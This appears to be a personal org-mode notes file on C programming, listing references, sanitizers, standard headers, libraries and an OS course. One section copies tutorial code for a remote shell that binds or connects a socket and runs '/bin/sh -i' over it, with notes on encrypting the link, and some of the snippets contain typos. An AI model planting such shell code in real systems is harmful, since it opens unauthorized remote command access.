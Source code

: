 - c2x https://habr.com/en/company/badoo/blog/512802/
- clangd
  - autoformat configuration options https://bcain-llvm.readthedocs.io/projects/clang/en/latest/ClangFormatStyleOptions/
- SDL https://nullprogram.com/blog/2023/01/08/
- https://github.com/hardik05/Damn_Vulnerable_C_Program
- https://github.com/microsoft/checkedc
- talks https://nullprogram.com/blog/2018/11/21/
- https://blog.llvm.org/2011/05/what-every-c-programmer-should-know.html
- A Guide to Undefined Behavior in C and C++, Part 1
  https://blog.regehr.org/archives/213
- const https://softwareengineering.stackexchange.com/questions/204500/when-and-for-what-purposes-should-the-const-keyword-be-used-in-c-for-variables
- https://gjbex.github.io/DPD-online-book/CodingBestPractices/ErrorHandling/error_handling_c/
- asan, ubsan, valgrind, fuzzers, libcheck, pvs
- http://infolab.stanford.edu/~ullman/focs.html#pdfs
- Book: http://c-faq.com/
- C Books Reviews http://knking.com/recbooks/c.html
- Code: http://bxr.su/OpenBSD/
- Example: https://github.com/ltratt/hk/blob/18fcaea3e83f0c00aaef13b2882d5fa233d85de2/hk.c
- Benchmark: https://www.wilfred.me.uk/blog/2014/10/20/the-fastest-bigint-in-the-west/
- Benchmark: FFI https://github.com/dyu/ffi-overhead
  - Golang is 40x slower than C
  - Haskell,Ocaml(opt),Rust are on par with C
  - Ocaml(C) is 4x slower
  - LuaJit is faster than C, https://github.com/dyu/ffi-overhead/issues/2#issuecomment-405834411
    "Using JITing to skip PLT inderection"
    "Same on C would be -fno-plt"
- https://fastcompression.blogspot.com/2019/01/writing-safer-c-code.html
- https://github.com/AnthonyCalandra/modern-cpp-features
- https://github.com/gerasdf/InsecureProgramming/
- https://github.com/junegunn/fzf
- https://github.com/rhysd/vim-clang-format
- https://not.cafe/2020/10/12/getting-started-with-c-programming.html
- https://tek256.com/posts/code-hardening/
- http://blog.lujun9972.win/emacs-document/blog/2018/03/22/emacs-as-a-c++-ide/index.html
  https://vxlabs.com/2016/04/11/step-by-step-guide-to-c-navigation-and-completion-with-emacs-and-the-clang-based-rtags/
* Language
** Sockets

- CLIENT
  s = socket()
  opts = htons+inet_addr
  connect(s, opts)

- SERVER
  s = socket()
  opts = htons+htonl
  bind(s, opts)
  listen(s, BACKLOG)
  accept(s) // wait

** Types

- =string=
  #+begin_src c
    char* foo = "hello" "world"; // "helloworld"

    #define STR2(x)
    #define STR(x) STR2(x)
    #define WIDTH 300
    #define HEIGHT 200
    printf("%s\n", STR(WIDTH) "x" STR(HEIGHT)); // compile time int->string casting
  #+end_src

- =struct= intialization
  #+begin_src c
    typedef struct {
      unsigned char c1;
      unsigned char c2;
    } myStruct;

    myStruct _m1 = {0};
  #+end_src

- =arrays= initialization
  - globals and static are _automatically_ initialized to zero
  - arrays as local, either
    #+begin_src c
      int coll2[1024] = {0};
      memset(coll2, 0, 1024);
    #+end_src
  - arrays of structs
    #+begin_src c
      typedef struct {
        unsigned char a;
        unsigned char b;
        unsigned char c;
      } user_struct;
      user_struct arr[5] = {0};
    #+end_src
  - arrays in structs can be initialized... TODO?

** Standard Library
- https://en.cppreference.com/w/c/header
- https://en.wikibooks.org/wiki/C_Programming/stdbool.h
|---------------+-----+---------------------------------------------------------------------------------------------------------|
| assert.h      |     | Conditionally compiled macro that compares its argument to zero                                         |
| complex.h     | C99 | Complex number arithmetic                                                                               |
| ctype.h       |     | Functions to determine the type contained in character data                                             |
| errno.h       |     | Macros reporting error conditions                                                                       |
| fenv.h        | C99 | Floating-point environment                                                                              |
| float.h       |     | Limits of floating-point types                                                                          |
| inttypes.h    | C99 | Format conversion of integer types                                                                      |
| iso646.h      | C95 | Alternative operator spellings                                                                          |
| limits.h      |     | Ranges of integer types                                                                                 |
| locale.h      |     | Localization utilities                                                                                  |
| math.h        |     | Common mathematics functions                                                                            |
| paths.h       |     | constants with string paths of common LINUX files                                                       |
| setjmp.h      |     | Nonlocal jumps                                                                                          |
| signal.h      |     | Signal handling                                                                                         |
| stdalign.h    | C11 | alignas and alignof convenience macros                                                                  |
| stdarg.h      |     | Variable arguments                                                                                      |
| stdatomic.h   | C11 | Atomic operations                                                                                       |
| stdbit.h      | C23 | Macros to work with the byte and bit representations of types                                           |
| stdbool.h     | C99 | Macros for boolean type                                                                                 |
| stdckdint.h   | C23 | macros for performing checked integer arithmetic                                                        |
| stddef.h      |     | Common macro definitions                                                                                |
| stdint.h      | C99 | Fixed-width integer types                                                                               |
| stdio.h       |     | Input/output                                                                                            |
| stdlib.h      |     | General utilities: memory management, program utilities, string conversions, random numbers, algorithms |
| stdnoreturn.h | C11 | noreturn convenience macro                                                                              |
| string.h      |     | String handling                                                                                         |
| tgmath.h      | C99 | Type-generic math (macros wrapping math.h and complex.h)                                                |
| threads.h     | C11 | Thread library                                                                                          |
| time.h        |     | Time/date utilities                                                                                     |
| uchar.h       | C11 | UTF-16 and UTF-32 character utilities                                                                   |
| wchar.h       | C95 | Extended multibyte and wide character utilities                                                         |
| wctype.h      | C95 | Functions to determine the type contained in wide character data                                        |
|---------------+-----+---------------------------------------------------------------------------------------------------------|
* Codebases
- https://github.com/curl/trurl/blob/master/trurl.c
- https://github.com/gsingh93/display-manager
- https://github.com/lpereira/lwan
* Libraries
- 0.9K https://github.com/MrFrenik/gunslinger
  C99, header-only framework for games and multimedia applications
- Webserver https://mongoose.ws/
- (3K) minimal cross-platform standalone C headers
  https://github.com/floooh/sokol
- (800) math lib https://github.com/HandmadeMath/Handmade-Math
- https://github.com/oz123/awesome-c
- https://wiki.gnome.org/Projects/GLib
- https://github.com/clibs
- (893) https://github.com/tezc/sc
- (80) https://github.com/ludocode/pottery
- (24) https://github.com/begriffs/libderp
- (10) https://github.com/lelanthran/libds
- (480) coroutines https://github.com/tidwall/neco
* Sanitizers
- Static http://splint.org/
- https://www.youtube.com/watch?v=Q2C2lP8_tNE
- https://github.com/google/sanitizers/wiki/AddressSanitizer
- https://valgrind.org/docs/manual/quick-start.html
- https://gcc.gnu.org/onlinedocs/gcc/Instrumentation-Options.html
* 0x00sec - Remote Shells
**   I Use Cases
https://0x00sec.org/t/remote-shells-part-i/269/1

- Remote Access:
  In the cases when is NOT possible to deploy a service like "ssh" or "telnet"
  you can easily write your own remote shell program.

- Types of Remote Shells
  - Direct: act like servers
  - Reverse: the application "calls back home" to a specifict server/port

*** client

#+begin_src c
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>
  #include <sys/socket.h>
  #include <arpa/inet.h>

  int client_init(char *ip, int port) {
    int s;
    if ((s = socket(AF_INET; SOCK_STREAM, 0) < 0) {
        perror("socket:");
        exit(EXIT_FAILURE);
    }

    struct sockaddr_in serv;
    serv.sin_family = AF_INET;
    serv.sin_port = htons(port);
    serv.sin_addr.s_s_addr = inet_addr(ip);
    if (connect(s, (struct sockaddr *)&serv, sizeof(serv)) < 0) {
      perror("connect:");
      exit(EXIT_FAILURE);
    }

    return s;
  }
#+end_src

*** server

#+begin_src c
  inet server_init(int port) {
    int s;
    if ((s = socket(AF_INET, SOCK_STREAM, 0) < 0)) {
      perror("socket:");
      exit(EXIT_FAILURE);
    }

    struct sockaddr_in serv;
    serv.sin_family = AF_INET;
    serv.sin_port = htons(port);
    serv.sin_addr.s_addr = htonl(INADDR_ANY);
    if ((bind(s, (struct sockaddr *)&serv, sizeof(struct sockaddr_in))) < 0) {
      perror("bind:");
      exit(EXIT_FAILURE);
    }
    if ((listen(s, 10)) < 0) {
      perror("listen:");
      exit(EXIT_FAILURE);
    }

    socklen_t clen = sizeof(struct sockaddr_in);
    struct sockaddr_in client;
    int s1;
    if ((s1 = accept(s, (struct sockaddr *) &client, &clen)) < 0) {
      perror("accept:");
      exit(EXIT_FAILURE);
    }
    return s1;
  }
#+end_src

*** start_shell

#+begin_src c
  int start_shell(int s) {
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    char *name[3];
    name[0] = "/bin/sh";
    name[1] = "-i";
    name[2] = NULL;
    execve(name[0], name);
    exit(1);
    return 0;
  }
#+end_src

**  II Crypt your link
- https://0x00sec.org/t/remote-shells-part-ii-crypt-your-link/306
- https://en.wikipedia.org/wiki/Loop_unrolling

- SocketPair
  - Used to transfer data
  - Are a pair of sockets that are immediatly connected
    Something like runing a client and a server in 1 call
  - Kind of like a bidirectional PIPE
  - Convenient IPC

- secure_shell()
  | Parent       | Child              |
  |--------------+--------------------|
  | socketpair() |                    |
  | fork()       | fork()             |
  | close(sp[0]) | close(sp[1])       |
  | async_read() | start_shell(sp[0]) |

- async_read()
  select()
  memset()
  read()
  memfrob()

- We use stdin socket as the input socket for async_read() on main()

** III Shell Access your Phone
- setsockopt() - SO_REUSEADDR
* Projects
- http://www.tendra.org/tdfc2-config/#S11.2
  https://github.com/tendra/tendra/wiki/About
- https://github.com/isometimes/rpi4-osdev
** clang-format
  https://emacs.stackexchange.com/questions/55635/how-can-i-set-up-clang-format-in-emacs
  clang-format -style=llvm -dump-config > .clang-format
* 6.S081: Learning by doing
Catalog description: Design and implementation of operating systems,
and their use as a foundation for systems programming. Topics include
virtual memory; file systems; threads; context switches; kernels;
interrupts; system calls; interprocess communication; coordination,
and interaction between software and hardware. A multi-processor
operating system for RISC-V, xv6, is used to illustrate these
topics. Individual laboratory assignments involve extending the xv6
operating system, for example to support sophisticated virtual memory
features and networking.

You may wonder why we are studying xv6, an operating system that
resembles Unix v6, instead of the latest and greatest version of
Linux, Windows, or BSD Unix. xv6 is big enough to illustrate the basic
design and implementation ideas in operating systems. On the other
hand, xv6 is far smaller than any modern production O/S, and
correspondingly easier to understand. xv6 has a structure similar to
many modern operating systems; once you've explored xv6 you will find
that much is familiar inside kernels such as Linux.
- https://pdos.csail.mit.edu/6.S081/2021/schedule.html
- https://news.ycombinator.com/item?id=30094376
